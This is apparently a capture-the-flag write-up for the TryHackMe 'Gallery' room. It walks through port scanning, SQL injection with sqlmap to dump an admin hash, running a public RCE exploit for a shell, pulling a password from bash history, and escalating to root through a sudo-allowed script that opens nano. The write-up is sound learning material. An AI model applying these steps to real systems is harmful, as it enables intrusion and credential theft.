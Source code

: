 # Gallery THM writeup
<a href = "https://tryhackme.com/room/gallery666"> https://tryhackme.com/room/gallery666 </a>

<br>

1. Question: How many ports are open?
lets start with an nmap scan to get the number of open ports in the server!
```
$ nmap 10.10.4.212          
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-17 10:12 EDT
Nmap scan report for 10.10.4.212
Host is up (0.056s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 1.17 seconds
```
We have 3 open ports in the server, now we got the answer to the first question, **3**



2. question: What's the name of the CMS?
Opening the website on port 80, we get an apache ubuntu default page, this doesn't help much.. 
but we noticed that there is another web server running on port 8080! Lets check it!

Now the website provided us a login page and with the name of the CMS! **Simple Image Gallery**



3. question: What's the hash password of the admin user?
When sending a login request, i noticed that we get a suspicious response,
```
{"status":"incorrect","last_qry":"SELECT * from users where username = 'admin' and password = md5('test') "}
```
maybe got some SQL injection vulnerability!
Running sqlmap we can see it detected that the username paramater is vulnerable to an sql injection attack, now we could easily get the admin's passwords hash.
After some time, sqlmap found the hash of the password
```
sqlmap -r req.txt --dump
....
+----------------------------------+
| password                         |
+----------------------------------+
| a228b12a08b6527e7978cbe5d914531c |
+----------------------------------+
```

Now i will continue to find some probable methods to gain a shell


4. question: What's the user flag?
To get the user flag, we have to gain a shell on the system.
I searched for the CMS name and found a possible RCE exploit on exploit-db
https://www.exploit-db.com/exploits/50214
I downloaded this to my machine and i ran it. It successfully gave me a shell on the target system!

Only the user "mike" can read the user.txt, so we have to find a way to be mike!
```
www-data@ip-10-10-191-82:/home/mike$ ls -l
ls -l
total 12
drwx------ 2 mike mike 4096 May 24  2021 documents
drwx------ 2 mike mike 4096 May 24  2021 images
-rwx------ 1 mike mike   32 May 14  2021 user.txt
```

I downloaded linpeas, and ran it. While i was checking the output i noticed that when mike tried to use the command "sudo -l"
he did a typo, and revealed his password in the bash history
```
╔══════════╣ Searching passwords in history files
/var/backups/mike_home_backup/.bash_history:sudo -lb3stpassw0rdbr0xx
/var/backups/mike_home_backup/.bash_history:sudo -l
```

now this allowed me to switch to mike's account with the password "b3stpassw0rdbr0xx" and read the user.txt!
```
mike@ip-10-10-191-82:~$ cat user.txt
THM{XXX}
```

5. Question: What's the root flag?
I ran sudo -l and i noticed there is a program that i can run as root without password
```
mike@ip-10-10-191-82:/opt$ sudo -l
Matching Defaults entries for mike on ip-10-10-191-82:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on ip-10-10-191-82:
    (root) NOPASSWD: /bin/bash /opt/rootkit.sh
```

What's inside of it?
```
mike@ip-10-10-191-82:/opt$ cat rootkit.sh
#!/bin/bash

read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

# Execute your choice
case $ans in
    versioncheck)
        /usr/bin/rkhunter --versioncheck ;;
    update)
        /usr/bin/rkhunter --update;;
    list)
        /usr/bin/rkhunter --list;;
    read)
        /bin/nano /root/report.txt;;
    *)
        exit;;
esac
```
Aha, so if i run it as root, and write read in the input box it will open a nano UI as root!
So basically if you have nano run as root, you can read any file on the system, and if we go with the /root/root.txt
it will paste the root flag in to the nano editor

